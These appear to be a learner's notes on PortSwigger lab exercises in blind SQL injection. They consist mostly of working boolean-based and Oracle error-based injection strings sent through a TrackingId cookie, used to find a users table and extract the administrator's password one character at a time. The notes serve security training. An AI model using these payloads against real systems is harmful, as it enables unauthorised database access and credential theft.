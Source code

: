 https://www.linkedin.com/pulse/basic-tutorial-security-testing-using-burp-force-qa-engineer-

Verify that table with users exist

asd' OR (SELECT table_name from information_schema.tables where table_name='users') = 'users

Find length of password of administrator  

asd' OR (SELECT username from users where username='administrator' and length(password) > 1) = 'administrator

asd' OR (SELECT username from users where username='administrator' and length(password) > 19) = 'administrator

asd' OR (SELECT username from users where username='administrator' and length(password) > 20) = 'administrator

find password

asd' OR SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 1, 1) = '7

asd' OR (SELECT SUBSTRING(password, 1, 1) FROM users WHERE username = 'administrator') = '7

### Lab: Blind SQL injection with conditional errors

Cookie: TrackingId=xyz' and (SELECT '1' FROM dual) = 'a' --; session=zqy720HBisRgWvbWKN3e4qNSwms2cPo0 # no 500 errors

Cookie: TrackingId=xyz' and (SELECT 1 FROM dual) = 'a' --; session=zqy720HBisRgWvbWKN3e4qNSwms2cPo0 # create 500 error

Cookie: TrackingId=xyz' || (SELECT CASE WHEN ('1' = '1') THEN TO_CHAR(1/0) ELSE NULL END FROM dual) --; session=zqy720HBisRgWvbWKN3e4qNSwms2cPo0 # creates 500 error as '1' does equal to '1' and it then proceeds to run TO_CHAR(1/0) which crashes the program 

Cookie: TrackingId=xyz' || (SELECT CASE WHEN ('1' = '2') THEN TO_CHAR(1/0) ELSE NULL END FROM dual) --; session=zqy720HBisRgWvbWKN3e4qNSwms2cPo0 # no 500 error as '1' does not equal to '2' hence NULL is returned and concatenated to xyz

https://www.techonthenet.com/oracle/functions/concat2.php

Cookie: TrackingId=xyz' UNION (SELECT CASE WHEN ('1' = '2') THEN TO_CHAR(1/0) ELSE NULL END FROM dual) --; session=zqy720HBisRgWvbWKN3e4qNSwms2cPo0 # no 500 error as '1' does not equal to '2' hence NULL is returned and concatenated to xyz

union select also works fine

Cookie: TrackingId=xyz' UNION (SELECT CASE WHEN ((SELECT version FROM v$instance) = '2') THEN TO_CHAR(1/0) ELSE NULL END FROM dual) --; session=zqy720HBisRgWvbWKN3e4qNSwms2cPo0

Cookie: TrackingId=xyz' UNION (SELECT CASE WHEN ((SELECT version FROM v$instance) = (SELECT version FROM v$instance)) THEN TO_CHAR(1/0) ELSE NULL END FROM dual) --; session=zqy720HBisRgWvbWKN3e4qNSwms2cPo0

https://portswigger.net/web-security/sql-injection/cheat-sheet

Cookie: TrackingId=xyz' UNION (SELECT CASE WHEN LENGTH(table_name) > 1 THEN TO_CHAR(1/0) ELSE '' END FROM dba_tables WHERE table_name='users') --; session=zqy720HBisRgWvbWKN3e4qNSwms2cPo0 # could not get exploit for verifying table name to work :(
